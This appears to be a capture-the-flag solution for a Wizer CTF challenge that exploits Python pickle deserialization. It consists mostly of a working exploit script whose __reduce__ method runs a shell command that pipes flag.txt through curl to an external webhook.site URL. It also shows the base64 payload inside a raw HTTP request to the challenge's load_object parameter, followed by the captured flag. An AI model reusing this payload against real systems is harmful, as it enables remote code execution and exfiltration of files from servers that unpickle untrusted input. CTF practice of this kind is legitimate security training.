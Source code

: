 
https://dsw3qg.wizer-ctf.com/submit_flag


import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('more flag.txt | curl -X GET --data-binary @- https://webhook.site/0cad5931-14e0-4bf5-b780-b3ed40d6a113?')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))
    # or
    print(base64.urlsafe_b64encode(pickled))




::::::::::::::
flag.txt
::::::::::::::
WIZER{'PICKL1NG_1S_DANGEROUS'}


GET /profile?load_object=gASVggAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjGdtb3JlIGZsYWcudHh0IHwgY3VybCAtWCBHRVQgLS1kYXRhLWJpbmFyeSBALSBodHRwczovL3dlYmhvb2suc2l0ZS8wY2FkNTkzMS0xNGUwLTRiZjUtYjc4MC1iM2VkNDBkNmExMTM/lIWUUpQu HTTP/1.1
Host: dsw3qg.wizer-ctf.com
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://dsw3qg.wizer-ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://dsw3qg.wizer-ctf.com/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

username=XXX&email=YYYY&bio=XXXX


https://dsw3qg.wizer-ctf.com/submit_flag/WIZER{'PICKL1NG_1S_DANGEROUS'}